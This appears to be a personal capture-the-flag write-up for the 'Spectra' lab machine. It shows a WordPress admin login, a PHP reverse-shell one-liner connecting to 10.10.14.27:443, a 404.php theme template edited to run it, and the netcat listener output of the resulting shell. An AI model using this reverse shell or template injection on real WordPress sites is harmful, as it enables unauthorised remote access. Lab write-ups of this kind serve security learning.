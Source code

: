 ## here we found some details 
## we are using default username for wordpress "ADMINISTRATOR"
## so we have the dahboard page
![[Pasted image 20210617103828.png]]

## lets see if we can get to upload the reverseshell

php -r '$sock=fsockopen("10.10.14.27",443);exec("/bin/sh -i <&3 >&3 2>&3");'

## after searching a lot we finally found that this program has a template vulnerability in which it runs the teamplate in system so we have to change the template to return a reverse shell

![[Pasted image 20210617114315.png]]

## we have to paste our php reverse shell and run the 404 error page to activate it
## and run the page "spectra.htb/main/wp-content/themes/twentyseventeen/404.php" to get the shell

# !!!!!!____getting user flag____!!!!!

``` bash
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 443                                                                                                                                                     130 ⨯
Listening on 0.0.0.0 443
Connection received on 10.10.10.229 38818
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 08:56:56 up 11:02,  0 users,  load average: 1.07, 0.78, 0.62
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ whoami
nginx
$ uname 0a
uname: extra operand '0a'
Try 'uname --help' for more information.
$ uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
$ 
```

